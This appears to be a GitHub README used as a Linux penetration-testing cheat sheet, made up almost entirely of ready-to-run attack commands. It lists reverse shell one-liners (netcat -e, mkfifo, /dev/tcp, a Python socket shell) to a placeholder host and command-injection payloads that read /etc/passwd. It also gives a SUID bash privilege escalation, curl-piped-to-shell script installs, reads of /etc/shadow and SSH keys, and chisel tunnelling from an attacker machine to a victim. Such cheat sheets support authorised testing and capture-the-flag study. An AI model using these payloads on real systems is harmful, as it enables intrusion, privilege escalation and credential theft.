 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/22857002/173634286-1909c4f2-729b-46bd-960b-60368df75400.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172728126-5dc238f3-9491-415b-a5f6-bedbb62d01cd.svg#gh-light-mode-only">
</picture>

---

- [Auto Script](#auto-script)
- [Command Injection](#command-injection)
- [Enumeration](#enumeration)
- [FTP](#ftp)
- [Gdbserver](#gdbserver)
- [Port Forwarding](#port-forwarding)
- [Privilege Escalation](#privilege-escalation)
- [Reverse Shell](#reverse-shell)
- [SCP](#scp)
- [Sudo](#sudo)

# Sudo
```bash
sudo -l
```

# Enumeration
## Script
### LinPeas
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### Linux Smart Enumeration
```bash
curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh
chmod +x lse.sh
./lse.sh -l1
```

### Docker
```bash
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -O
```

## File
### Classic
- `/etc/passwd`  &  `/etc/shadow`
- `/www/html` ꞏ `/var/www` ꞏ `/srv/html` ꞏ `/usr/share/*`
- `/home/user/.ssh`
- `/etc/cron.d`
- `/opt/`
- `/usr/local/bin`

### Proc
`/proc/` contains useful information about the processes that are currently running

| directory	          | description                                     |
|---------------------|-------------------------------------------------|
| `/proc/PID/cmdline` | Command line arguments.                         |
| `/proc/PID/cwd`     | Link to the current working directory.          |
| `/proc/PID/environ` | Values of environment variables.                |
| `/proc/PID/exe`     | Link to the executable of this process.         |
| `/proc/PID/fd`      | Directory, which contains all file descriptors. |

### Command
```bash
find / -user user 2>&-
find / -group group 2>&-
find / -user root -executable -type f 2>&- | grep -v /bin/
```

```bash
/sbin/getcap -r *
```

# Reverse Shell
### Server
```bash
nc -lp 4444
```

### reSH
```bash
# Client
resh ip 4444
# Server
resh 4444
```
[Source](/scripts/resh.py)

### Netcat
```bash
nc ip 4444 -e /bin/bash
```

### Mkfifo
```bash
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Dev 
```bash
bash -c 'bash -i >& /dev/tcp/ip/4444 0>&1'"
```

### Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### TTY Support
```bash
bash -i
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
script -qc /bin/bash /dev/null
```

*[source](https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md)*

# Privilege Escalation
```
/bin/cp /bin/bash /tmp/bash_up; /bin/chown user:group /tmp/bash_up; chmod g+s /tmp/bash_up; chmod u+s /tmp/bash_up
/tmp/bash_up -p
```

# SCP
### Download File
```
scp -P port user@192.168.1.ip:path .
```

### Upload File
```
scp -P port file user@192.168.1.ip:path
```

### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```

# FTP
*Port: 21*

### Download all files
```
wget -m --user=user--password=fpassword ftp://10.10.11.160
```

# Gdbserver
*Port: 1337*
```
$ gdb
(gdb) target extended-remote ip:port
(gdb) remote get remote_file local_file
(gdb) remote put local_file remote_file
```


# Command Injection
```bash
;{cat,/etc/passwd}
;cat${IFS}/etc/passwd;
; cat /etc/passwd ;
$(cat /etc/passwd)
`cat /etc/passwd`
&& cat /etc/passwd &&
|| cat /etc/passwd ||
< <(cat /etc/passwd)
| cat /etc/passwd
"; cat /etc/passwd "
```
[GTFOBins - Bypass  local security restrictions](https://gtfobins.github.io/)


# Port Forwarding

### Chisel

```bash
# Install chisel
curl https://i.jpillora.com/chisel! | bash
```

```bash
# Example: 8000 -> 4444

# Attacker machine:
chisel server -p 4444 --reverse

# Victim machine:
chisel client ip-server:4444 R:8000:127.0.0.1:8000
```

### SSH
```sh
ssh -L 8080:127.0.0.1:8080 user@ip
```
